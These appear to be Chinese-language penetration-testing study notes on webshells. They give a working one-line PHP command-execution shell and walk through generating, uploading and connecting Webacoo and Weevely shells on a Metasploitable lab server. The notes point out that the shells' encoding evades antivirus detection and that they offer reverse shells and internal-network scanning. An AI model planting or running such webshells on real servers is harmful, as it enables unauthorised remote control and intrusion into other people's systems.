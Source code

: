 # WebShell

本质：

```
<?php echo shell_exec($_GET['cmd']);?>
```

---

### Windows平台

中国菜刀



---

### Linux下

> 本质与中国菜刀类似，有编码功能，可以避免被查杀



##### 1.Webacoo

> > 获得的是类终端的shell，编码内容通过cookie头传输，隐蔽性较强

**参数**

```
cm:base64编码的命令
cn:服务器用于返回数据的cookie头的名
cp:返回信息定界符
```

（1）.生成服务器端

```
webacoo -g -o a.php
```

![webacoo1](img/webshell/webacoo1.png)

```
利用scp上传到Metaspolitable的服务器根目录
```

![webacoo2](img/webshell/webacoo2.png)

```
移动a.php到web根目录
```

![webacoo3](img/webshell/webacoo3.png)

（2）.使用客户端进行连接

```
webacoo -t -u http://192.168.1.121/a.php
```

![webacoo4](img/webshell/webacoo4.png)

```
抓包分析如何通过cookie头传指令，手动触发流量   【cm/cn/cp】
```



```
其他参数： webacoo -h
```



---



**Weevely**

> 使用http头进行指令（经过编码）传输

> 隐藏的类终端PHP Webshell
>
> 有30多个管理模块
>
> > > 执行系统命令，浏览文件系统
> > >
> > > 检查服务器常见配置错误
> > >
> > > 创建正向，反向TCP Shell连接
> > >
> > > 通过目标计算机代理HTTP流量
> > >
> > > 从目标计算运行端口扫描，渗透内网

> 支持连接密码

kali中缺少库：https//pypi.python.org/pypi/PySocks/     #下载库文件压缩包

```
./setup.py install
```



（1）.生成服务器

```
weevely generate <password> <path>
```

![weevely1](img/webshell/weevely1.png)

```
上传密码
```

![weevely2](img/webshell/weevely2.png)

（2）.连接服务器

```
weevely <url> <password> [cmd]
```

![weevely3](img/webshell/weevely3.png)

（3）模块

```
help    #查看模块
```

![weevely.png](img/webshell/weevely4.png)